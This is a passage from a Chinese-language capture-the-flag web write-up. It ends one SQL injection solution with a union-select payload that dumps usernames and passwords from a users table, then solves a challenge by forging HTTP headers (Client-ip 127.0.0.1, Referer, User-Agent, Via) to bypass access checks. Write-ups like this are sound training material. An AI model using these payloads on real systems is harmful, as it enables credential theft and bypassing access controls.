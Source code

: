 ```mysql
-1)))))) union select (select group_concat(concat_ws('-',id,username,password)) from users),2#
```

```
F1rst_to_Th3_eggggggggg!} (4/4)
```



### 08. Http pro max plus

考点为HTTP Request Header

1.只允许本地访问

```
Client-ip: 127.0.0.1
```

2.You are not from pornhub.com !

```
Referer: pornhub.com
```

3.用Chrome浏览器啊!

```
User-Agent: Chrome
```

4.代理服务器地址是Clash.win

```
via: Clash.win
```

```bash
GET / HTTP/1.1
Host: node6.anna.nssctf.cn:28927
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Chrome
Referer: pornhub.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Client-ip: 127.0.0.1
via: Clash.win
Connection: close


```

![image-20230514003954481](Web_Writeup/image-20230514003954481.png)
